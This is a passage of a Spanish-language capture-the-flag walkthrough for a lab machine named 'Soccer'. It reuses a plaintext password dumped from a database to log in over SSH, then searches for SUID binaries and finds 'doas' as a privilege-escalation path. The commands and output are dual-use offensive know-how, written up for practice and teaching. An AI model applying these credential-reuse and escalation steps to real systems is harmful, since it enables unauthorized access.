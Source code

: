 ```sh
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
```
Quizás estas credenciales las podeams usar para escalar al usuario player. Podría hacer un `su player` ya que estoy dentro de máquina objetivo pero voy a probar a conectarme por ssh:
```sh
ssh player@10.10.11.194
--skip--

player@soccer:~$ whoami
player
player@soccer:~$ hostname -I
10.10.11.194 dead:beef::250:56ff:feb9:f50d
```

## Escalada a root

```sh
player@soccer:~$ export TERM=xterm

player@soccer:~$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.

player@soccer:~$ find / \-perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
```
En este punto encuentro un comando con suid que no es normal, es el comando doas. Si acudo a [gftobins](https://gtfobins.github.io/) no encuentro nada con doas. Pero realmente si que puede ser vulnerable. Lo primero es ir al archivo de configuración del comando doas.
> El comando doas te permite ejecutar como otro usuario un comando. En su archivo de configuración suelen salir los comandos con los que puedes hacerlo y como que usuario.
